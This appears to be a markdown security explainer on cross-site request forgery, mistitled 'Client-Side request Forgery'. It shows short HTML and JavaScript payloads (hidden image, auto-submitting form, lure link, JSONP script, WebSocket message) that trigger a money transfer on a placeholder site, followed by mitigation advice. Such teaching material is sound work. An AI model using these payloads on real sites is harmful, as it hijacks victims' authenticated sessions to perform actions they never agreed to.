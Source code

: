 # Client-Side request Forgery(CSRF)

Cross-Site Request Forgery (CSRF) is a security vulnerability that tricks users into executing unwanted actions on a web application where they are authenticated, potentially compromising their account.

## Methods to perform CSRF

- ### Using Image Tags:

Attackers can exploit the <img> tag to send a request to a vulnerable endpoint when the image is loaded.
Example:
```text
<img src="http://vulnerable-website.com/transfer?amount=1000&to=attacker" style="display:none;">
```
When the victim visits a page containing this image tag, the browser sends a GET request to the vulnerable endpoint, executing the action without the user's consent.

- ### Form Submission via JavaScript:

Attackers can create a hidden form and use JavaScript to submit it automatically.
Example:
```text
<form id="csrfForm" action="http://vulnerable-website.com/transfer" method="POST" style="display:none;">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
```
When the victim visits the page, the form is submitted automatically, executing the transfer.

- ### Using a Malicious Link:

An attacker can craft a link that performs an action when clicked, leveraging the victim's authenticated session.
Example:
```text
<a href="http://vulnerable-website.com/transfer?amount=1000&to=attacker">Click here to claim your prize!</a>
```
If the victim is logged into the vulnerable site, clicking the link will execute the transfer.

- ### CSRF via JSONP:

If a web application uses JSONP (JSON with Padding) for cross-domain requests, an attacker can exploit this to perform CSRF.
Example:
```text
<script src="http://vulnerable-website.com/api/transfer?amount=1000&to=attacker&callback=alert"></script>
```
This will execute the alert function with the response from the server, which could be a malicious payload.

- ### Using WebSockets:

If a web application uses WebSockets, an attacker can exploit this to send unauthorized commands.
Example:
```text
const socket = new WebSocket('ws://vulnerable-website.com/socket');
socket.onopen = function() {
    socket.send(JSON.stringify({ action: 'transfer', amount: 1000, to: 'attacker' }));
};
```
If the server does not validate the origin of the WebSocket connection, this could lead to unauthorized actions.

## Mitigation Strategies
To protect against CSRF attacks, consider the following best practices:

- ### CSRF Tokens: 
  Implement anti-CSRF tokens that are unique for each session and included in every state-changing request (e.g., form submissions).

- ### SameSite Cookies:
  Use the SameSite attribute for cookies to prevent them from being sent with cross-origin requests.

- ### Referer Header Validation:
  Check the Referer header to ensure that requests originate from trusted sources.

- ### User Interaction:
  Require user interaction (e.g., CAPTCHA) for sensitive actions to ensure that the request is intentional.

- ### Secure Coding Practices:
  Regularly review and audit code for potential CSRF vulnerabilities.
